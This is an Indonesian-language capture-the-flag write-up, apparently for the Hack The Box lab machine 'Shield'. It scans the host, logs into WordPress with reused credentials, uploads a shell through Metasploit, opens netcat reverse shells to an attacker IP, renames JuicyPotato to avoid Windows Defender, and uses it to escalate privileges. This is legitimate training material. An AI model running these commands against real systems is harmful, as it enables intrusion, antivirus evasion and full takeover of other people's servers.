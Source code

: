 # shield

nmap -A -T4 -p- 10.10.10.29 -oN nmap

gobuster dir -u http://10.10.10.29 -w /usr/share/wordlists/dirb/common.txt > direnum

dapat link /wordpress/wp-admin untuk login. kemudian memasukan credential dari chall sebelumnya

```
admin
P@s5w0rd!
```

dari wordpress kita coba gunain cve dengan tools msf.

```sh
use exploit/unix/webapp/wp_admin_shell_upload

show options


msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

selanjutnya kita sudah mendapatkan reverse shell dari msfconsolenya

pertama kita upload file nc.exe ke windowsnya dengan command `lcd /home/kali/Desktop/netcat/`

lanjut kita upload dengan command `upload nc.exe` pastikan file nc.exe sudah berada pada path ketika kita menggunakan command lcd

selanjutnya kita bisa menjalankan nc.exe dengan command `execute -f nc.exe -a "-e cmd.exe 10.10.14.168 4333"` untuk mendapatkan reverse shell pada linux kita supaya lebih stabil.

sekarang kita cek sysinfo dari target

```
Computer    : SHIELD
OS          : Windows NT SHIELD 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows
```

setelah itu kita menggunakan tools juicypotato dari link `https://github.com/sebastiendamaye/hackthebox/raw/master/01-starting_point/04-Shield/files/JuicyPotato.exe` untuk priviledge escalation.

Kita kemudian mengupload dan segera merename nya supaya tidak terdeteksi oleh windows defender.

selanjutnya kita menjalankan perintah dibawah ini dan menghubungkan pada listener yang baru.

`echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.168 4222 > shell.bat`

`some.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`